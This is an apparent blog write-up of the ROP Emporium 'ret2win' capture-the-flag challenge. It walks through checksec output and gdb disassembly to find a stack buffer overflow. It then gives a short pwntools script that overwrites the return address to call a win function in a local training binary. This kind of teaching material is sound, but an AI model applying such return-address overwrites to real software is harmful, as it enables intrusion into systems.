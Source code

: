 ```yaml
---
title: Return-Oriented Programming - ret2win
date: '2021-12-20'
tags: ['ropemporium','rop', 'pwn']
draft: false
summary: ret2win means return here to win and it's recommended you start with this challenge. Visit the challenge page by clicking this card to learn more.
images: []
layout: PostLayout
---
```


# Introduction
Challenge description

>Locate a method that you want to call within the binary. Call it by overwriting a saved return address on the stack.

This challenge is classical pwn challenge of overwriting the return address with desired address you want to return to.

The binaries for the challenges can be downloaded from the author`s website [ropemporium](https://ropemporium.com).The goal of first challenge is to call the **ret2win** function.

After downloading the binary, the first thing is to check the binary protection enabled on the binary using `checksec` utility.

```bash
vx@archie:ret2win$ checksec --file ret2win
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Only **NX** (Not executable) is enabled on the binary meaning we cannot execute code stored on the stack like shellcode.and the behavior of this program we will use gdb. gdb is a tools that enables to inspect the behavior of binaries at runtime.
```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
0x0000000000400570  printf@plt
0x0000000000400580  memset@plt
0x0000000000400590  read@plt
0x00000000004005a0  setvbuf@plt
0x00000000004005b0  _start
0x00000000004005e0  _dl_relocate_static_pie
0x00000000004005f0  deregister_tm_clones
0x0000000000400620  register_tm_clones
0x0000000000400660  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
0x0000000000400780  __libc_csu_init
0x00000000004007f0  __libc_csu_fini
0x00000000004007f4  _fini
(gdb) 
```
The binary has various functions has as shown in the output above.For initial analysis we start at the main function which is the entrypoint of our program.

```nasm
(No debugging symbols found in ret2win)
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400697 <+0>:	push   rbp
   0x0000000000400698 <+1>:	mov    rbp,rsp
   0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009b6]        # 0x601058 <stdout@@GLIBC_2.2.5>
   0x00000000004006a2 <+11>:	mov    ecx,0x0
   0x00000000004006a7 <+16>:	mov    edx,0x2
   0x00000000004006ac <+21>:	mov    esi,0x0
   0x00000000004006b1 <+26>:	mov    rdi,rax
   0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
   0x00000000004006b9 <+34>:	mov    edi,0x400808
   0x00000000004006be <+39>:	call   0x400550 <puts@plt>
   0x00000000004006c3 <+44>:	mov    edi,0x400820
   0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
   0x00000000004006cd <+54>:	mov    eax,0x0
   0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
   0x00000000004006d7 <+64>:	mov    edi,0x400828
   0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
   0x00000000004006e1 <+74>:	mov    eax,0x0
   0x00000000004006e6 <+79>:	pop    rbp
   0x00000000004006e7 <+80>:	ret    
End of assembler dump.
(gdb) 
```
From the initial analysis of the main function, we are calling an interesting function called **pwnme**. Next disassemble **pwnme** function to understand the behavior.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400838
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x400898
   0x0000000000400715 <+45>:	call   0x400550 <puts@plt>
   0x000000000040071a <+50>:	mov    edi,0x4008b8
   0x000000000040071f <+55>:	call   0x400550 <puts@plt>
   0x0000000000400724 <+60>:	mov    edi,0x400918
   0x0000000000400729 <+65>:	mov    eax,0x0
   0x000000000040072e <+70>:	call   0x400570 <printf@plt>
   0x0000000000400733 <+75>:	lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:	mov    edx,0x38
   0x000000000040073c <+84>:	mov    rsi,rax
   0x000000000040073f <+87>:	mov    edi,0x0
   0x0000000000400744 <+92>:	call   0x400590 <read@plt>
   0x0000000000400749 <+97>:	mov    edi,0x40091b
   0x000000000040074e <+102>:	call   0x400550 <puts@plt>
   0x0000000000400753 <+107>:	nop
   0x0000000000400754 <+108>:	leave  
   0x0000000000400755 <+109>:	ret    
End of assembler dump.
```
From the disassembled code above, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values present memory area specified. The memory are we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size  32 bytes from the address of base pointer as shown in the stack diagram below.

![](/static/images/ropemporium/stack.png)

Therefore the next function is **read** function, which reads from the standard input file descriptor and stores in the specified buffer.From the disassembled code we see we are reading 0x38 bytes from the user input and storing it in our buffer.

```c
read(0, *[rbp-0x20], 0x38) //0 is file descriptor stdin
```
Because we are reading more than the buffer can hold, we corrupt the adjacent memory regions therefore casusing a stack buffer overflow. Therefore in order to control the return address as shown in the stack image shown above is to fill the buffer, overwrite the rbp register and control the return address with our desired address which is **ret2win** function address. 

## Exploit

The exploit code for this ret2win function is,
```python
import pwn

pwn.context.encoding = "latin-1" 
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./ret2win')

payload = b"A" * 32 # fill the buffer
payload += b"B" * 8  #overwrite saved base pointer
payload += pwn.p64(0x400756)  #Address of ret2win function
io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the script we get the flag.

```bash
vx@archie:ret2win$ python3 x.py 
[+] Starting local process './ret2win': pid 45427
[*]  Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
[*] Process './ret2win' stopped with exit code 0 (pid 45427)
```